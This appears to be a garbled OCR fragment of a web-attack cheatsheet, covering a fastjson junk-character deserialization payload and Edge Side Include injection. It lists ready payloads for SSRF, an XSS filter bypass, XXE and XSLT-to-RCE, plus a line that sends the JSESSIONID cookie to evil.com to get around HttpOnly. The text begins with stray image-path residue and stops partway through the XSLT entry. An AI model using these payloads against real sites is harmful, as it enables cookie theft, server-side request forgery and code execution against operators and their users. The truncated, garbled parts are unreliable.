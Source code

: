 ```json
```
垃圾字符:
```
[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"
...
]]]]]
```

### 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html
## ESI Inject Cheatsheet
#### SSRF
```html
<esi:include src="http://evil.com/ping/" />
```
#### Bypass Client-Side XSS Filters
```html
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
```http
GET /index.php?msg=<esi:include src="http://evil.com/poc.html" />
```
poc.html:
```js
<script>alert(1)</script>
```
#### Bypass the HttpOnly Cookie Flag
```html
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
#### XXE(ddoS)
```html
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
poc.xsl
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
#### ESI Inline Fragment
```html
<esi:inline name="/attack.html" fetchable="yes">
<script>prompt('Malicious script')</script>
</esi:inline>
```
#### XSLT To RCE
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```
esi.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
```